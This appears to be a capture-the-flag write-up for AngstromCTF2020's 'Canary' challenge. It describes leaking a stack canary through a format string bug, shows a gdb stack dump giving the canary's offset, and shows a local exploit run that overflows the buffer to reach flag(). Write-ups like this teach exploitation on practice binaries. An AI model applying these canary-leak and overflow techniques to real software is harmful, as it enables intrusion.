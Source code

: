 # Canary

On examining the source code the chalenge becomes pretty clear, we'll have to leak the stack canary.
Luckilly we have a format string vulnerabilty to help with that.

Opening the binary up in gdb let's us know the offset of the canary from the top of the stack.

```gdb
Breakpoint 1, 0x00000000004008d6 in greet ()
gdb-peda$ tele 30
0000| 0x7fffffffde00 --> 0x7025 ('%p')
0008| 0x7fffffffde08 --> 0x7ffff7e4c003 (<_IO_new_file_overflow+275>:   cmp    eax,0xffffffff)
0016| 0x7fffffffde10 --> 0x19 
0024| 0x7fffffffde18 --> 0x7ffff7fa36a0 --> 0xfbad2887 
0032| 0x7fffffffde20 --> 0x400c17 ('^' <repeats 24 times>, "\n")
0040| 0x7fffffffde28 --> 0x7ffff7e3f60a (<__GI__IO_puts+378>:   cmp    eax,0xffffffff)
0048| 0x7fffffffde30 --> 0x0 
0056| 0x7fffffffde38 --> 0x7fffffffde60 --> 0x7fffffffde80 --> 0x4009d0 (<__libc_csu_init>:     push   r15)
0064| 0x7fffffffde40 --> 0x4006a0 (<_start>:    xor    ebp,ebp)
0072| 0x7fffffffde48 --> 0x7fffffffdf60 --> 0x1 
0080| 0x7fffffffde50 --> 0x0 
0088| 0x7fffffffde58 --> 0x641b92b866f8b100 
```
using the offset we leak the canary and from there proceed with a simple buffer overflow to redirect code execution to flag()..!

```bash
arch3r@1nv4d3r:~/git-repos/CTF-Writeups/AngstromCTF2020/Canary$ python exploit.py local NOPTRACE
[+] Starting local process './canary': pid 23886
[!] Skipping debug attach since context.noptrace==True
0xbbe4678322a48900
actf{fake_flag}


```
